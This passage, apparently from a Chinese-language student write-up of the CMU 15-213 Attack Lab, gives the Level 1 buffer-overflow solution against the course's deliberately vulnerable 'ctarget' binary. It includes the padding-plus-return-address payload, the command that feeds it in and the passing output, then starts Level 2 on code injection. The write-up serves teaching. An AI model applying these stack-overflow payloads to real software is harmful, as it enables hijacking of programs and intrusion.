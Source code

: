 可以看到`touch1`函数的地址为`0x4017c0`，这就是我们要输入的字符串末尾的字符。

---

<span id = "hex2rawq">[如何得到我们要输入的字符串？](#hex2raw)</span>

首先编辑用于攻击的字符串文件`exploit.txt`，同时注意**机器为小端法（little endian）时地址的字节序问题**（前40个字符任意输入）：

```shell
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 /* address of touch1 */
```

再将保存的`exploit.txt`输入到`ctarget`：

```shell
cat exploit.txt | ./hex2raw | ./ctarget -q
```

得到输出如下：

```shell
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

完成。

## Level 2

> `level 2`涉及**注入少量代码**作为字符串的一部分。
>
> `ctarget`中有`touch2`函数：
>
> ```c
> void touch2(unsigned val)
> {
>   vlevel = 2; /* Part of validation protocol */
>   if (val == cookie) {
>     printf("Touch2!: You called touch2(0x%.8x)\n", val);
>     validate(2);
>   } else {
>     printf("Misfire: You called touch2(0x%.8x)\n", val);
>     fail(2);
>   }
>   exit(0);
> }
> ```
>
> 你的任务是**让`ctarget`重定向至`touch2`并进入`validate`分支，而不是返回`test`**。
>
> 一些忠告：
>
> - 你将希望以某种方式在字符串中放置注入代码的地址的字节表示，以使`getbuf`代码末尾的`ret`指令将控制权转移给它。
> - 回想一下，函数的第一个参数在寄存器`％rdi`中传递。
> - 你注入的代码应将寄存器设置为`cookie`，然后使用`ret`指令进行转移控制到`touch2`中的第一条指令。
> - 请勿尝试在代码中使用`jmp`或调用指令。 这些指令的目标地址的编码很难确定。 对于所有控制转移，请使用`ret`指令，即使你不是从调用处返回也是如此。